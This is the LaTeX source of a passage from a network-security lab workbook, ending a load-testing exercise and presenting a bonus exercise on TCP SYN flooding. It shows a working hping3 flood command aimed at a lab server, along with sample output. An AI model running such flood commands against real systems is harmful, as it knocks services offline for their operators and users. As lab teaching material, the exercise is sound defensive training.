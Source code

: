 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
{\bf Solution:}\\
When you have tried the tool and seen some data you are done.

{\bf Discussion:}\\
Apache benchmark is very simple, more advanced tools can perform more advanced testing, following a login flow, ordering something, completing a purchase etc.


\chapter{Bonus:TCP SYN flooding 30min}
\label{ex:syn-flood}

{\bf Objective:}\\
Start a webserver attack using SYN flooding tool hping3.

{\bf Purpose:}\\
See how easy it is to produce packets on a network using hacker programs.

The tool we will use is very flexible and can produce ICMP, UDP and TCP using very few options. This tool is my primary one for doing professsional DDoS testing.

\begin{alltt}\footnotesize
-1 --icmp
       ICMP  mode,  by  default  hping3  will  send  ICMP echo-request, you can set other ICMP
       type/code using --icmptype --icmpcode options.

-2 --udp
       UDP mode, by default hping3 will send udp to target host's port 0.  UDP header  tunable
       options are the following: --baseport, --destport, --keep.
\end{alltt}

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}
\end{document}
